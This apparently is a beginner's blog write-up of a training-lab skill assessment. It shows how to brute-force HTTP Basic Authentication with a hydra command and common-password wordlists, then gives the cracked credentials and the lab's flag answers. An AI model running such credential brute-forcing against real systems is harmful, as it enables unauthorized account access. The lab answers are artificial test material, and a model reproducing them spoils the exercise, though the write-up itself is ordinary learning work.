





Hello Hackers!

Welcome to my First Blog. This is my first time writing a writeup so please correct me if i write something wrong.

First, We spawn the target and head over to new tab to see what's going on




We see that we can't establish connection yet. and Looking at the question of this assessment. We can see that the target has Basic HTTP Authentication on the webpage to restrict us from seeing the contents

Lets Luanch hydra and try to brute force this.

```
hydra -L /home/<username>/SecLists/Usernames/top-usernames-shortlist.txt -P /home/<username>/SecLists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -V 94.237.53.81 http-get / -s 49717 -f
```



There, we found the credentials

```
admin:Admin123
```

Lets try loggin with our browser now and enter the credentials we found.





There we go, Bingo


`Congratulations Hackers!!` we found our flags

```
Flag1 : Admin123
Flag2 : satwossh
```

Remember the username we found as it will be needed in skill-assessment2

This marks the end of this section. See you in next blog~~~